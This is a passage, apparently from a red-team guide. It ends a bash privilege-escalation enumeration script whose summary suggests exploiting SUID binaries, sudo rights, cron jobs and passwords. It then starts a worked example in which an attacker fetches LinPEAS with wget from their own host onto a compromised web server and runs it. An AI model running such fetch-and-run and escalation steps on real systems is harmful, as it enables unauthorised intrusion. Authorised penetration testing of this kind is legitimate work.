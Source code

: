 ```bash
    echo ""
    
    echo "Cron Jobs:"
    if [ -s "$ANALYSIS_DIR/cron_jobs.txt" ]; then
        echo "✓ Interesting cron jobs found - see cron_jobs.txt"
        cat "$ANALYSIS_DIR/cron_jobs.txt" | head -5
        echo "..."
    else
        echo "No interesting cron jobs detected"
    fi
    echo ""
    
    echo "Processes Running as Root:"
    if [ -s "$ANALYSIS_DIR/root_processes.txt" ]; then
        echo "✓ Interesting root processes found - see root_processes.txt"
        cat "$ANALYSIS_DIR/root_processes.txt" | head -5
        echo "..."
    else
        echo "No unusual root processes detected"
    fi
    
    echo ""
    echo "Next Steps:"
    echo "1. Review the detailed files in the $ANALYSIS_DIR directory"
    echo "2. Focus on exploiting SUID binaries and sudo rights first"
    echo "3. Check kernel exploits if no other vectors are available"
    echo "4. Look for passwords in the identified files"
    echo "5. Consider exploiting writable configuration files and cron jobs"
} > "$ANALYSIS_DIR/summary.txt"

echo "Analysis complete! Summary available at $ANALYSIS_DIR/summary.txt"
```

#### Example: Automating Privilege Escalation Discovery

During a red team operation targeting a financial institution's Linux server farm, we gained initial access to a web server as the www-data user. Here's how we used LinPEAS to discover privilege escalation paths:

1. **Initial Setup**:
   ```bash
   # Transferred LinPEAS to the target
   cd /tmp
   wget http://192.168.49.84:8000/linpeas.sh
   chmod +x linpeas.sh
   ```

2. **Running LinPEAS with Output Capture**:
   ```bash
   ./linpeas.sh | tee /tmp/linpeas_webserver1.txt
   ```

3. **Key Findings and Exploitation**:
   